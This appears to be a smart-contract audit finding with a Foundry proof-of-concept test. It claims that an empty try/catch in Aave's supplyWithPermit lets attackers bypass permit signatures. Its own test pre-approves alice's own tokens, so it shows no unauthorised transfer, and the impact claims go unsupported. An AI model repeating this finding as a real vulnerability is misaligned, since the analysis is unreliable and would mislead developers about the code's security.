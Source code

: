 The main problem is that the function uses an empty `try-catch` block that ignores all errors from permit operations:
```solidity
try {
  // Permit operation
} catch {} // Catch block is empty
```
Even if the permit fails, the function still proceeds to `executeSupply` without validating whether the permit succeeded or not.

There is no check for a valid signature and the correct owner. This could allow an attacker to supply without a valid signature and Alice to supply on behalf of Bob using a signature that should only be valid for Bob.

### Impact

- Unauthorized token transfers possible despite invalid permits
- Bypass of EIP-2612 permit signature validation

### Attack Path
https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/protocol/pool/Pool.sol#L185

### PoC

Add this to `Pool.t.sol` and run it `forge test --match-test "test_supplyWithPermit_ignores_invalid_signature|test_supplyWithPermit_ignores_wrong_owner" -vvvv`.
```solidity
function test_supplyWithPermit_ignores_invalid_signature() public {
    uint256 amount = 1000e6;
    uint256 deadline = block.timestamp + 1 days;
    
    // Generate invalid signature values
    uint8 invalidV = 0;
    bytes32 invalidR = bytes32(0);
    bytes32 invalidS = bytes32(0);

    // Mint tokens to alice for testing
    vm.prank(poolAdmin);
    usdx.mint(alice, amount);

    vm.startPrank(alice);
    
    // Approve spending first since permit will fail
    usdx.approve(address(pool), amount);
    
    // This should revert due to invalid signature, but doesn't
    pool.supplyWithPermit(
        address(usdx),
        amount, 
        alice,
        0, // referralCode
        deadline,
        invalidV,
        invalidR, 
        invalidS
    );

    // Verify supply succeeded despite invalid permit
    (address aUSDX,,) = contracts.protocolDataProvider.getReserveTokensAddresses(address(usdx));
    assertEq(IERC20(aUSDX).balanceOf(alice), amount);
    
    vm.stopPrank();
}

```